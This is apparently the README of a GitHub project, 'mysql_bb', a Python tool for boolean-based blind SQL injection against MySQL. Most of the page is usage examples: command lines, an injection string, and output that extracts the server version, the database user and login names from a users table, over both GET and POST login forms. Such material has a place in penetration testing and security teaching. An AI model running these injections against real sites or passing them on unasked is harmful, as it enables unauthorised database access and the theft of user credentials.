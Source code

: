# mysql_bb
Boolean-based blind SQL injection exploit for MySQL.

This script attempts to retrieve result of given SQL query by making boolean-based blind injection into supplied HTTP request. Basic concept is the assumption that True and False answers has different Content-Length header and True>False.
## Usage example
Be sure you have no errors in SQL syntax, otherwise it may lead to false negative results. No ending semicolon is needed since given query will be inserted as subquery into substring() MySQL function.
```bash
#Injection into GET "http://localhost/login?username=admin&password=admin"
python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET "select version()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametrs "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
5.5.47-0+deb8u1
(+) done!

python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET "select user()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametrs "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
root@localhost

(+) done!
python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET "select login from users"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametrs "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
admin
(+) done!

#Injection into POST "http://localhost/login" with body "username=test&password=test"
python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method POST "select version()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametrs "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
5.5.47-0+deb8u1
```

## TODO
- Support different content-types for POST requests;
